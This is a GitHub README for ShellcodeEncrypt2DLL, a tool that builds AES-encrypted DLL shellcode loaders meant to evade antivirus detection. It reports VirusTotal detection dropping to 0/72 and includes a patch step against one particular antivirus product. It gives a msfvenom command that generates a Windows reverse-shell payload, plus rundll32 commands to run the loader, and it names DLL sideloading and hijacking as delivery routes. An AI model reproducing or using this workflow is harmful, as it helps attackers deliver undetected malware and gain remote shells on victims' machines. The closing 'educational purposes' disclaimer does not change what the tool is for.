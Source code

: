 # ShellcodeEncrypt2DLL

A script to generate AV evaded(static) DLL shellcode loader with AES encryption.

Shellcode and API names encryption + Dynamic API loading

Two modes:
- non-standalone: To make an encrypted DLL **WITHOUT** KEY stored in the DLL.You can use it for sideload/rundll32 but you need to pass the key. (So even if the sample is captured, the shellcode will be still difficult to recover)
- standalone: To make an encrypted DLL **WITH** KEY stored in the DLL. You can use it for sideload/hijack or in a printnightmare-like scenario.



VT: 2/72 (13/3/2025)

VT: 3/72 (14/3/2025)

VT: 3/73 (27/3/2025)

**VT: 0/72 (28/3/2025) (after update)**

![](https://raw.githubusercontent.com/restkhz/blogImages/main/img/屏幕截图_20250328_193321.png)



![](https://raw.githubusercontent.com/restkhz/blogImages/main/img/屏幕截图_20250313_060155.png)

## Usage

You can use this on **Kali** or other linux distributions

Dependencies:
```
pip install pycryptodome
sudo apt install mingw-w64
```
I know no one wants to memorize a bunch of arguments…
**Edit your key in the `ShellcodeEncrypt2Dll.py` first** 

Example:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 x64/xor_dynamic -f raw > shellcode.raw

python ShellcodeEncrypt2Dll.py --non-standalone shellcode.raw
or
python ShellcodeEncrypt2Dll.py --standalone shellcode.raw
```

Then you will get a `loader.dll`

For a particular antivirus program, we need to patch the dll to bypass…

```
python patch.py (optional)
```

Then you will get a `loader_patched.dll`

For non-standalone:
```
rundll32 <path_to_dll>,EPoint <Your KEY>
```
You can make you own exe to load this DLL with KEY as well.

For standalone:
```
rundll32 <path_to_dll>,EPoint
```

As you see, standalone and non-standalone both have `EPoint` as export function.




Your can edit your key in the python script.

## How does it work?

This script will generate a header file for template.cpp, then try to compile with `x86_64-w64-mingw32-g++`.
The `shellcode` and `function names` like `VirtuallAlloc`, `CreateThread` etc will be encrypted(AES-CBC) with key.

Hide suspicious strings as much as possible…

Considering entropy…

The standalone mode will store the key in the DLL. Decrypt itself when running.
The non-standalone mode needs your key as a parameter to decrypt itself when running.

## Disclaimer

Submitted to VirusTotal already. Only for educational purposes.

